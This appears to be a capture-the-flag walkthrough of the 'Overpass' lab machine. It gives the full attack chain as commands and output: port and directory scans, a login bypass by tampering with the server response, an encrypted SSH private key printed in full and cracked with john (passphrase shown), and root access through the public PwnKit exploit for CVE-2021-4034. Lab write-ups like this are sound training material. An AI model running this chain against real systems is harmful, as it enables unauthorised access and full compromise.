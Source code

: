 1. nmap -sC -sV -A TARGET_IP -o nmap_overpass.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-19 14:35 IST
Stats: 0:00:23 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 95.00% done; ETC: 14:35 (0:00:01 remaining)
Nmap scan report for 10.10.40.175
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.89 seconds


2. now tried to scan full ports (so that we can get more port informations and services)

nmap -v -n -p- 10.10.40.175 -o nmap_overpass_all_ports.txt

Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


3. using gobuster trying to enumerate
gobuster dir -u 10.10.40.175 -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -t 64 -o gobuster_overpass.txt

/img                  (Status: 301) [Size: 0] [--> img/]
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/admin                (Status: 301) [Size: 42] [--> /admin/]  
/css                  (Status: 301) [Size: 0] [--> css/]      
/http%3A%2F%2Fwww     (Status: 301) [Size: 0] [--> /http:/www]
/http%3A%2F%2Fyoutube (Status: 301) [Size: 0] [--> /http:/youtube]
/http%3A%2F%2Fblogs   (Status: 301) [Size: 0] [--> /http:/blogs]  
/http%3A%2F%2Fblog    (Status: 301) [Size: 0] [--> /http:/blog]   
/**http%3A%2F%2Fwww   (Status: 301) [Size: 0] [--> /%2A%2Ahttp:/www]

4. using burp tried to access /admin page, Ádministrator Logon' page appears. At this stage tried to use sql injection  but it failed!!!!.

5. while analyzing burp after setting scope to TARGET_IP and also set proxy for response. Got two javascript files. (i) main.js and (ii) cookie.js
in cookie.js , It is evident that the code checks 'Correct Credential' response. In Burp after incepting the response and modifying the response as Çorrect Credential' a redirect appears '/admin/'

after refreshing this page got ssh credential.

Welcome to the Overpass Administrator area
A secure password manager with support for Windows, Linux, MacOS and more
Since you keep forgetting your password, James, I've set up SSH keys for you.

If you forget the password for this, crack it yourself. I'm tired of fixing stuff for you.
Also, we really need to talk about this "Military Grade" encryption. - Paradox

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----

6. So, we get the username as James and ssh's private key .
7. copy it in a text file named id_rsa.txt 
8. using john crack it with the help with rockyou.txt
(a) ssh2john.py id_rsa.txt > id_rsa.hash
(b) john --wordlist=rockyou.txt id_rsa.hash
(c) got the password: james13

8. Now create a directory named .ssh in attackbox
9. copy id_rsa.txt as id_rsa into .ssh directory
10. now move into .ssh directory.
11. ssh -i id_rsa james@TARGET_IP
provide the passphrase as : james13
12. logged in as james and get user.txt (user flag)
13. run sudo -l
** got sudo version: 1.8.21p2 **
It is vulnerable, but cannot exploit using it.
14. Now tried to list all suid bit set binary executables:-
find  / -perm -u=s -type f 2>/dev/null

/bin/fusermount
/bin/umount
/bin/su
/bin/mount
/bin/ping
/usr/bin/chfn
/usr/bin/at
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign

as pkexec's suid bit is set, it may be vulnerable to CVE-2021-4034
So, again this github exploit tried to exploit:

  https://github.com/PwnFunction/CVE-2021-4034

15. download files and transfer them to target.
16. in /tmp of TARGET
we require following files:
(a) pwnkit.c
(b) Makefile
(c) conversion-mod.c

17. make all && ./pwnkit && make clean
get the root shell and flag





